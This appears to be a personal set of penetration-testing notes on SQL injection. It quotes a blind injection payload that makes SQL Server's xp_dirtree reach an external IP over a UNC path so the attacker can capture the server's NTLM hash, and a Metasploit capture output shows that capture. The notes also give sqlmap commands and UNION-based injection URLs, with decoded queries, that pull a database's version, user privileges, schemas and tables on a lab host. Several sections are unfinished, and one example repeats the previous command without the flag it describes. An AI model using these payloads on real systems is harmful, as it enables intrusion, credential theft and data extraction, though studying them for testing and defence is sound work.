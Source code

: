 # SQL Injection

### Blind SQL Injection

* In the following evidence Trustwave injected a SQL query that calls SQL Server's xp_dirtree stored procedure with a UNC file path that references a URL on an external domain.
```JSON
...,"PaymentMethodId":"LL5WZKJLM6Q1B1');declare @q varchar(99);set @q='\\\\3.83.30.21'; exec master.dbo.xp_dirtree @q;--",...
```
* Application server interacted with the domain, indicating that the injected SQL query was executed. Since this was a UNC path, the host will try to authenticate to the remote server by passing the user’s password hash.
```
```
msf auxiliary(server/capture/smb) > run
Started Listener...
msf auxiliary(server/capture/smb) > SMB Captured....
[NTLM Hash]
```


### SQL UNION:
---

+ Usually at the end of a query:  
  `http://[host]/ajax_udf.php?q=1&add_value=*odm_user*`
  Becomes something like this:  
  `http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9`

  Importantly you can select which tables to select from:
  ``

+ To get


#### SQLMap:
```
 sqlmap -u 'http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' -p 'add_value' --dbms=MySQL -os=Linux --technique=U --proxy http://10.0.0.4:8080 -v 2'
 ```

 + To get the banner (i.e. the version), add -b
  ```
  sqlmap -u 'http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' -p 'add_value' --dbms=MySQL -os=Linux --technique=U --proxy http://10.0.0.4:8080 -v 2'
  ```

  The URL changes to:
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x716b707671%2CIFNULL%28CAST%28VERSION%28%29%20AS%20CHAR%29%2C0x20%29%2C0x716a767a71%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--%20JuOm
  ```

  Which is:
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION ALL SELECT NULL,CONCAT(0x716b707671,IFNULL(CAST(VERSION() AS CHAR),0x20),0x716a767a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- JuOm
  ```

+ To get users & privileges:
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x716b707671%2CIFNULL%28CAST%28grantee%20AS%20CHAR%29%2C0x20%29%2C0x6d72726f6263%2CIFNULL%28CAST%28privilege_type%20AS%20CHAR%29%2C0x20%29%2C0x716a767a71%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.USER_PRIVILEGES--%20oZLD
  ```

  Which is:
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION ALL SELECT NULL,CONCAT(0x716b707671,IFNULL(CAST(grantee AS CHAR),0x20),0x6d72726f6263,IFNULL(CAST(privilege_type AS CHAR),0x20),0x716a767a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.USER_PRIVILEGES-- oZLD
  ```

  SQL:
  SELECT CONCAT(0x716b707671,IFNULL(CAST(grantee AS CHAR),0x20),0x6d72726f6263,IFNULL(CAST(privilege_type AS CHAR),0x20),0x716a767a71) FROM INFORMATION_SCHEMA.USER_PRIVILEGES
  grantee AS CHAR
  privilege_type AS CHAR
  FROM INFORMATION_SCHEMA.USER_PRIVILEGES

+ To get all tables:
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x716b707671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x716a767a71%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20tQDD
  ```
  Then
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x716b707671%2CIFNULL%28CAST%28table_schema%20AS%20CHAR%29%2C0x20%29%2C0x6d72726f6263%2CIFNULL%28CAST%28table_name%20AS%20CHAR%29%2C0x20%29%2C0x716a767a71%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%280x64727570616c37%2C0x696e666f726d6174696f6e5f736368656d61%2C0x6a61626364306373%2C0x6d7973716c%2C0x706572666f726d616e63655f736368656d61%2C0x7068706d7961646d696e%29--%20Jeqw
  ```

  Which is:
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION ALL SELECT NULL,CONCAT(0x716b707671,IFNULL(CAST(schema_name AS CHAR),0x20),0x716a767a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA-- tQDD
  ```
  and
  ```
  /jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION ALL SELECT NULL,CONCAT(0x716b707671,IFNULL(CAST(table_schema AS CHAR),0x20),0x6d72726f6263,IFNULL(CAST(table_name AS CHAR),0x20),0x716a767a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x64727570616c37,0x696e666f726d6174696f6e5f736368656d61,0x6a61626364306373,0x6d7973716c,0x706572666f726d616e63655f736368656d61,0x7068706d7961646d696e)-- Jeqw
  ```

  So:
  CONCAT(0x716b707671,
    IFNULL(CAST(schema_name AS CHAR)
  ,0x20),0x716a767a71)
  FROM INFORMATION_SCHEMA.SCHEMATA

  SELECT CONCAT(0x716b707671,IFNULL(CAST(table_schema AS CHAR),0x20),0x6d72726f6263,IFNULL(CAST(table_name AS CHAR),0x20)

  CONCAT(0x716b707671,
    IFNULL(CAST(table_schema AS CHAR),0x20),
    0x6d72726f6263,
    IFNULL(CAST(table_name AS CHAR),0x20),
    0x716a767a71)
  FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x64727570616c37,0x696e666f726d6174696f6e5f736368656d61,0x6a61626364306373,0x6d7973716c,0x706572666f726d616e63655f736368656d61,0x7068706d7961646d696e)
